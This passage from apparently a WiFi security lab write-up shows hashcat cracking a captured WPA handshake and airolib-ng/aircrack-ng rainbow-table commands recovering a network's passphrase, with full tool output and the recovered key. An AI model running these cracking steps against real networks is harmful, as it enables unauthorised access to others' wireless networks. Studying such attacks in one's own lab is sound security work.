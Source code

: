 ```
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     5309 H/s (8.76ms) @ Accel:384 Loops:64 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 86345/14344386 (0.60%)
Rejected.........: 55625/86345 (64.42%)
Restore.Point....: 78850/14344386 (0.55%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: jasmin123 -> adam2326
Hardware.Mon.#1..: Temp: 63c Util: 96%

Started: Wed Nov  6 08:30:11 2024
Stopped: Wed Nov  6 08:30:21 2024
➜  02 
```


* **-m**: hash-type.
	* 22000: WPA-PBKDF2-PMKID+EAPOL
* **-a**: attack-mode
	* 0:Straight

* **1ddb64255459c8af9453f5f9b450d95f:6413ab1b92ac:36bae440e8e3:Casa SH:5101997.**
* **Around 10 seconds.**

#### Rainbow Table

* This is the fastest method, creating and computing the Rainbow tables can be time consuming...

* Create a text file essid.txt with the name of the ESSID to attack.

```bash
# 1. Create Rainbow table
airolib-ng <MyRainbowTable> --import essid <essid.txt>

# 2. Import Password list
airolib-ng <MyRainbowTable> --import passwd <Password List>

# 3. Compute all passwords in Rainbow Table
airolib-ng <MyRainbowTable> --batch

# 4. Clean all unnecessary things in rainbow table
airolib-ng <MyRainbowTable> --clean all

# 5.Attacking...
sudo aircrack-ng -r RT CasaSH-Capture-01.cap
Reading packets, please wait...Aircrack-ng 1.6 

      [00:00:00] 28160/0 keys tested (294696.31 k/s) 

      Time left: 724488149 days, 12 hours, 33 minutes, 4 seconds     inf%

                           KEY FOUND! [ 5101997. ]


      Master Key     : AD 22 A9 73 97 44 9A 77 5A 49 E2 03 46 17 9E 55 
                       59 E8 9E F6 A3 42 5A EB 9F FB 75 5A 1D C1 DA 7E 

      Transient Key  : C3 FF 6C 2F 16 A4 FE B7 4D EA 89 5A 91 4E 40 2A 
                       10 6C E6 A7 F0 D7 24 5F 82 67 CE A1 3E 9D 89 20 
                       6F 9B A6 BC 8F 60 D3 55 25 4A 15 8F 55 41 8F 5C 
                       15 08 8A 44 B0 F7 4B C8 54 E7 17 10 50 3B F2 53 
```
